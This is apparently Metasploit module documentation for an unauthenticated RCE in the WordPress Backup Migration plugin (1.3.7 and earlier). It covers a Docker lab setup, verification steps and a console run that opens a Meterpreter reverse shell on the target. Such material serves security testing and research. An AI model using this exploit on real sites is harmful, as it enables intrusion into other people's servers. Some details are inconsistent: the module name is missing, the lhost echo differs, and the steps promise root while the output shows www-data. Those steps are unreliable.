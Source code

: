 ## Vulnerable Application

This module exploits an unauth RCE in the WordPress plugin: Backup Migration (<= 1.3.7).  The vulnerability is
exploitable through the Content-Dir header which is sent to the /wp-content/plugins/backup-backup/includes/backup-heart.php endpoint.

The vuln makes use of a neat technique called PHP Filter Chaining which allows an attacker to prepend
bytes to a string by continuously chaining character encoding conversion. This allows an attacker to prepend
a PHP payload to a string which gets evaluated by a require statement, which results in command execution.

### Setup 

Spin up a Wordpress instance by running `docker-compose up` in the same directory as the `docker-compose.yml` file below:
```
version: "3"
# Defines which compose version to use
services:
  # Services line define which Docker images to run. In this case, it will be MySQL server and WordPress image.
  db:
    image: mysql:5.7
    # image: mysql:5.7 indicates the MySQL database container image from Docker Hub used in this installation.
    restart: always
    environment:
      MYSQL_ROOT_PASSWORD: MyR00tMySQLPa$$5w0rD
      MYSQL_DATABASE: MyWordPressDatabaseName
      MYSQL_USER: MyWordPressUser
      MYSQL_PASSWORD: Pa$$5w0rD
      # Previous four lines define the main variables needed for the MySQL container to work: database, database username, database user password, and the MySQL root password.
  wordpress:
    depends_on:
      - db
    image: wordpress:latest
    restart: always
    # Restart line controls the restart mode, meaning if the container stops running for any reason, it will restart the process immediately.
    ports:
      - "8000:80"
      # The previous line defines the port that the WordPress container will use. After successful installation, the full path will look like this: http://localhost:8000
    environment:
      WORDPRESS_DB_HOST: db:3306
      WORDPRESS_DB_USER: MyWordPressUser
      WORDPRESS_DB_PASSWORD: Pa$$5w0rD
      WORDPRESS_DB_NAME: MyWordPressDatabaseName
# Similar to MySQL image variables, the last four lines define the main variables needed for the WordPress container to work properly with the MySQL container.
    volumes:
      ["./:/var/www/html"]
volumes:
  mysql: {}
```

Download the vulnerable Backup Migration plugin: `https://downloads.wordpress.org/plugin/backup-backup.1.3.7.zip`.
Navigate to `http://localhost:8000` and you'll be redirected and asked to setup the WordPress site. This includes 
setting a username, password, email address for the admin user etc. Once the setup is complete login as the newly created
admin user and via the options on the left side of the screen navigate to the `Plugins` and select `Add New`. Upload the
`backup-backup.1.3.7.zip` file. You should now see `Backup Migration` in the list of Plugins, select `Activate` on the
plugin. You should now have a vulnerable instance running. 

## Verification Steps

1. Start msfconsole
1. Do: `use `
1. Set the `RHOST`, `USERNAME`, and `PASSWORD` options
1. Run the module
1. Receive a Meterpreter session as the `root` user.

## Scenarios
### Backup Migration Plugin version: 1.3.7 (Containerized WordPress Version 6.0)
```
msf6 exploit(multi/http/wp_backup_migration_php_filter) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 exploit(multi/http/wp_backup_migration_php_filter) > set rport 8000
rport => 8000
msf6 exploit(multi/http/wp_backup_migration_php_filter) > set lhost 192.168.123.1
lhost => 172.16.199.1
msf6 exploit(multi/http/wp_backup_migration_php_filter) > options

Module options (exploit/multi/http/wp_backup_migration_php_filter):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   PAYLOAD_FILENAME  ASmZED.php       yes       The filename for the payload to be used on the target host (%RAND%.php by default)
   Proxies                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS            127.0.0.1        yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT             8000             yes       The target port (TCP)
   SSL               false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI         /                yes       The base path to the wordpress application
   VHOST                              no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.123.1    yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/wp_backup_migration_php_filter) > run

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] WordPress Version: 6.0
[+] Detected Backup Migration Plugin version: 1.3.7
[+] The target appears to be vulnerable.
[*] Writing the payload to disk, character by character, please wait...
[*] Sending stage (39927 bytes) to 192.168.123.1
[+] Deleted ASmZED.php
[*] Meterpreter session 1 opened (192.168.123.1:4444 -> 192.168.123.1:60869) at 2023-12-20 16:36:44 -0500

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : 46e8870a65ae
OS          : Linux 46e8870a65ae 6.5.11-linuxkit #1 SMP PREEMPT_DYNAMIC Wed Dec  6 17:14:50 UTC 2023 x86_64
Meterpreter : php/linux
meterpreter >
```